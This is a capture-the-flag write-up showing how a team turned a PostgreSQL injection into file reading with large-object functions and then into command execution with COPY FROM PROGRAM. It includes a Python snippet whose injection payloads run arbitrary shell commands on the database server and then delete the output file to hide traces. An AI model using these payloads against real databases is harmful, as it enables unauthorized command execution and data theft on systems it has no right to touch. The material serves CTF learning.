

# Challenge 6 - Instaloans Backup
- Solved by: @Elma, @BaeSenseii
- Flag: hli{i_HAvE_pERfoRM3d_s0M3_R3cTAl_toN51lL3cTOMY}

## Screenshot of Challenge


## Writeup
Based on the question, it stated that the flag is stated within the /external/backups directory of the DBMS server, which means that we somehow need to get remote code execution on the DB instance. Since we already have the initial PostgreSQL injection vulnerability, we need to find out a way as to how we can run commands on that system.

The first discovery was the ability to read files via the PostgreSQL DB service through the use of large objects (https://www.postgresql.org/docs/11/lo-funcs.html). For this to work, we need to do two things:
- Specify the file to import in the system using the lo_import() function. This will result in a Large Object ID (loid) value.
- Use the lo_get() function with the Large Object ID value to view the contents of the file (casted using the text() function). The result of this will be a long hex value, which will need to be decoded with ASCII hex in order to see the actual text.


Honestly speaking, just doing the injection alone seems to be a daunting task. So I decided to create a quick Python script to do the following steps AUTOMATICALLY:
- Register an account with the necessary details (including the SQLi payload appended into the ‘passport’ field)
- Log in with the new creds.
- View the user’s credit score to fetch the encoded file output and decode it in ASCII hex.

[Link to LFI PostgreSQL Script here](./lfi-postgres.py)

What I would just need to do in this case is just to provide the filepath of the file that I want to view, as shown in the screenshot below.


However, this doesn’t solve the problem because we have no idea what is the actual filename within the /external/backups directory that contains the flag. 

And then, i found this: https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program

Apparently there is a COPY FROM PROGRAM syntax that allows users to run commands and store the results into the database. However, since the field that we use to output the SQL injection data has a limited space, it would not be possible to return the output. BUT, it had dawned upon me to do this:
- Use the COPY FROM PROGRAM syntax to run a Linux command which will output to a file located anywhere (for this example i used /tmp/lol)
- Use the Large Object functions to read the created file.

So modifications were made on the current Python script by adding the following lines of code:

```python
# For RCE, we'll use the following:
# COPY from PROGRAM postgresql functionality that allows running of commands

rce_cmd = sys.argv[1]

sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM '"+rce_cmd+" > /tmp/lol';")
# Use the LFI capability to read the output file that contains the command output
lfi_p1 = sqli_postgres("UNION SELECT text(lo_import('/tmp/lol'))--")
lfi_p2 = sqli_postgres("UNION SELECT text(lo_get("+lfi_p1[0]+"))--")

data_lfi = ''.join([str(s) for s in lfi_p2[0]])
temp = bytes.fromhex(data_lfi[2:]).decode("ASCII")
print(temp)

# remove all evidence, don't want other competitors to know :D
sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM 'rm -rf /tmp/lol';DROP TABLE test;")

```
Since now we have a working Python RCE POC, it’s just a matter of listing the files within the /external/backups directory, and displaying the contents of the text file using the ‘cat’ command:


Here's the code reference for the PostgreSQL RCE Python script:

[Link to RCE PostgreSQL Script here](./rce-postgres.py)